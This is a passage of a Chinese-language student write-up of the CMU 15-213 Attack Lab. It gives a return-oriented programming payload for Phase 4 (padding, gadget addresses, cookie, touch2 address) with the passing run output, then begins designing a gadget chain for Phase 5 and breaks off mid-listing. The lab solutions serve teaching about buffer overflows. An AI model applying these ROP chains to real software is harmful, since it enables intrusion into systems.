 ```
ff ff ff ff ff ff ff ff ff ff 
ff ff ff ff ff ff ff ff ff ff 
/* 以上40字节 */
ab 19 40 00 00 00 00 00 /* gadget address 1 */
fa 97 b9 59 00 00 00 00 /* cookie: 59b997fa */
a2 19 40 00 00 00 00 00 /* gadget address 2 */
ec 17 40 00 00 00 00 00 /* touch2 address */
```
成功了!
```shell
$ ./rtarget -qi Phase4-raw
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```
执行返回地址的时候栈顶指针已经在这块8字节地址内存的上方了.
遇到`ret`指令时,实质是将此时的栈顶指针上方当作返回地址取出并跳转.


## Phase 5
根据Handout的提示,可能需要用到8个gadget
注意到
```
	0x0000000000401a03 <addval_190+0>:   8d 87 41 48 89 e0       lea    -0x1f76b7bf(%rdi),%eax
# 48 89 e0 c3:  movq     %rsp,%rax;ret
	0x00000000004019a0 <addval_273+0>:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
# 48 89 c7 c3 :     movq    %rax,%rdi;ret
```
如何在栈空间中连续存放字符串呢?我注意到farm.c文件中有一个 `add_xy`函数:
```c
long add_xy(long x, long y)  
{  
    return x+y;  
}
```
利用这个函数来计算字符串存放的位置相对于%rsp的偏移量
设计gadget:
```
gadget 1:    # 0x401a06
	movq    %rsp,%rax
	ret

gadget 2:    # 0x4019a2
	movq    %rax,%rdi
	ret
# 以上,将%rsp处的值复制给了%rdi

gadget 3:    # 0x4019ab
	pop    %rax
	ret

gadget 4:    # 0x4019dd
	movl    %eax,%edx
	ret

gadget 5:    # 0x401a34
	cmpb    %cl,cl
```